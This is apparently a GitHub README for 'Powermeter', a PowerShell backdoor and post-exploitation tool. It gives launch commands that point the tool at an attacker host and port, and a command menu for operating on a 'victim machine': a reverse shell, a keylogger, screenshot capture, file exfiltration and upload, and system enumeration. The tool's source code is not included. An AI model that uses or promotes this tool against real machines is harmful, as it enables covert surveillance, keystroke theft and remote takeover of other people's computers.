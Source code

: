# Powermeter
Powermeter is a basic powershell based backdoor/post exploit tool. Main functionalities are shown below. You can check the video at the bottom of the page.
Note: It is highly recommended to watch the video at 1080p due to low quality. It will be fixed soon :=)

## How to run?

	>> PS C:\Users\decoder\Desktop> . .\powermeter.ps1
	>> PS C:\Users\decoder\Desktop> Start-Powermeter -SHOST 192.168.214.1 -SPORT 9190 -FLPORT 9192

In main module:

Powermeter>show options

Options
=============

	 Command                			 Description
	 -------                			 -----------
	 get sysinfo            			 Get system information about victim machine
	 get username           			 Get username of victim machine
	 set FLPORT=<port>      			 Set file transfer port
	 rshell                 			 Open reverse shell module
	 start keylogger        			 Start keylogger thread
	 show jobs              			 Show all active threads
	 stop job -keylogger    			 Stop keylogger thread and download captured keystrokes from file port
	 stop job -reverseShell 			 Stop reverse shell session and thread
	 stop job -sendFile     			 Stop file downloading thread
	 stop job -receiveFile  			 Stop file uploading thread
	 stop job -all          			 Stop all active threads
	 screencap -screen      			 Capture screenshot of victim machine [WHOLE SCREEN] and download it
	 screencap -activeWindow			 Capture screenshot of victim machine [ACTIVE WINDOW] and download it
	 download <fileFromVictim>			 Download a file from victim machine.[<fileFromVictim>: An absolute file path in victim machine that the attacker downloads]
	 upload <fileToVictim>  			 Upload a file to victim machine.[<fileToVictim>: An absolute file path in victim machine to store file uploaded by attacker]
	 exit                   			 Exit the program
	 Important: File transfer port should be opened in attacker's side to achieve downloading,uploading files.

In reverse shell module:

Powermeter>reverse_shell>show options

Options
=============

	 Command                			 Description
	 -------                			 -----------
	 set LHOST=<IPv4>       			 Set local IP address
	 set LPORT=<port>       			 Set local port address
	 run                    			 Start reverse shell
	 back                   			 Exit from reverse shell module


A quick demo video
=============

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/0D49nX_bD_8/0.jpg)](https://www.youtube.com/watch?v=0D49nX_bD_8)

